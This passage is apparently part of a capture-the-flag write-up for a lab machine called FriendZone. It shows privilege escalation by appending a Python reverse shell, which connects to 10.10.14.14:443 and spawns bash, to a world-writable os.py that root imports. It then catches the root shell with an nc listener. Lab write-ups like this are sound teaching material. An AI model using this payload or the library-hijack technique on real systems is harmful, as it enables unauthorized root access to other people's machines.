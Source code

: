 The os.pyc (bytecode) is owned by 'friend', and the sourcecode (os.py) is owned by root, but readable,writable and executable by anybody.

If I replace os.py with an exploit, its likely that root will run it when it executes reporter.py.


<hr width="250" size="6">

First I copy os.py as os-old.py just incase something goes wrong and I need to restore it.

Next I copypaste this python reverse shell...and append it to os.py

```

import pty
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.14",443))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()

```

To do this I use `vi`

`vi os.py`

To goto end of file and edit; press `esc` then `GA` (in capitals)
This takes you to end of file and enters input mode...

`Ctrl + v` pastes the clipboard.

Press `esc` then `:wq` to save and exit.

set listener .....and wait...

```

 nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.123] 35100
root@FriendZone:~# cat /root/root.txt
cat /root/root.txt
b0xxxxxxxxxxxxxxxxxxxxxxxc7
root@FriendZone:~# 


```

I remove os.py and do `mv os-old.py os.py` to restore the scenario.


:)

